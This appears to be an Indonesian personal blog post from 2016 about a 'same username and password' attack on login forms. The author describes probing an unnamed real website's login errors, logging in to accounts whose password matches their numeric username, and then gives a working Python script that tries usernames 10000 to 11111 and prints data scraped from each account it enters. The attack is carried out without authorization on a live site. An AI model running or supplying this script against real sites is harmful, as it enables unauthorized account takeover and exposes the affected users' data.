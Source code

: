 ```yaml
---
layout: post
title:  "User==Pass attack"
date:   2016-12-06 18:47:00 +0700
categories: same user pass attack
comments: false
---
```


Dictionary attack,  bruteforce attack, soceng serangan serangan yang sudah pada umum kalau hacker udah ga mampu lagi nyerang target dengan cara cara yang halus. Serangan ini seperti memaksa membuka pintu dengan 1000 kunci yang dicoba satu satu. ga efektif dan serangan ini biasanya tidak diperbolehkan untuk digunakan pada CTF ataupun Bug Bounty karena jenis lubang keamanan ini bagi para security engginer sangat tidak rasional dikarenakan serangan ini cukup membutuhkan "*insting*" yang beketergantungan dengan "*luck*"

> "I absolutely hates die" 

yap plural dari dadu dan juga kata kerja dari mati, membutuhkan keberuntungan untuk melakukan hal statis semacam brute force, dimana  penebakan pattern pattern digunakan.

artikel kali ini akan saya jelaskan bagaimana lemahnya internet dimana beberapa orang lebih senang menggunakan password yang sama dengan username. Contoh real kasus yang akan saya jelaskan kali ini dimana ada website yang menggunakan alert pada saat username ataupun password tidak cocok. 

![Fail attempt login](http://k1m0ch1.github.io/images/fail-attempt-1.png)

Yap, dengan cara menebak nebak memaksa dengan false attempt pada awalnya akan muncul informasi sederhana, next step adalah mencari tahu user ini mengandung huruf/ kata atau campur.

Ternyata setelah di tes jika kita menginputkan random 5 huruf akan tetap muncul error seperti di atas dan tetap bilang kalau user harus 5 digit.

ok cukup.. berarti 5 angka.

pada contoh kali ini saya tidak akan menggunakan tools bruteforce karena serangan ini cukup sederhana dikarenakan memanfaatkan password yang sama dengan username. next saya mencoba serangan dengan username *10001* sampai *10010* dengan password yang sama dengan username.. LETS START!!

![Kimochi ikeh](http://k1m0ch1.github.io/images/fail-attempt-2.png)

fast forward dan ternyata pada user *10005* berhasil dilakukan berikut juga dengan user *10007*

![haha](http://k1m0ch1.github.io/images/success-attempt-1.png)

next nya saya bikin script python sederhana buat post login dan get cookies di percantik dengan beautifulsoup4 saya looping dari user *10000* sampai dengan user *11111*

codenya seperti ini :

```python
from requests import session
from bs4 import BeautifulSoup

base = 10000
endbase = 11111
target = "http://site target/"
proc = "index.php?action=llogin"
a=0

for x in range(base, endbase):

	exp = str(x)

	payload = {
		'login' : 'login',
	    'username': exp,
	    'password': exp
	}

	with session() as c:
	    c.post('%s%s' % (target, proc), data=payload)
	    response = c.get('%s', target)
	    soup = BeautifulSoup(response.text, 'html.parser')
	    #print(response.headers)
	    #print(response.text)
	    parsingnyah = soup.select(".top-menu")
	    if len(parsingnyah) > 0 :
	    	parsingnyah = soup.select(".top-menu > table > tr > td > br")[0].encode('utf-8')[22:-140]
	    	print "[+] Success Login user %s = %s" % (exp,parsingnyah)
```
![haha](http://k1m0ch1.github.io/images/lul-script-1.png)